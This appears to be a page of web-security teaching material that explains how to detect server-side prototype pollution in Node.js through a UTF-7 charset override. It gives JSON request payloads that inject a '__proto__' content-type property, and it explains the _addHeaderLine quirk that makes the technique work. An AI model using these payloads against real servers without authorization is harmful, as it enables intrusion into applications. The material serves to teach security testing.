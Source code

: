 ## Charset override - Continued

If you can find an object whose properties are visible in a response, you can use this to probe for sources. In the following example, we'll use UTF-7 encoding and a JSON source.

- Add an arbitrary UTF-7 encoded string to a property that's reflected in a response. For example, `foo` in UTF-7 is `+AGYAbwBv-`.
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```
- Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.
- Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
- Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```

## Charset override - Continued

Due to a bug in Node's `_http_incoming` module, this works even when the request's actual `Content-Type` header includes its own `charset` attribute. To avoid overwriting properties when a request contains duplicate headers, the `_addHeaderLine()` function checks that no property already exists with the same key before transferring properties to an `IncomingMessage` object
```javascript
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```
If it does, the header being processed is effectively dropped. Due to the way this is implemented, this check (presumably unintentionally) includes properties inherited via the prototype chain. This means that if we pollute the prototype with our own `content-type` property, the property representing the real `Content-Type` header from the request is dropped at this point, along with the intended value derived from the header.
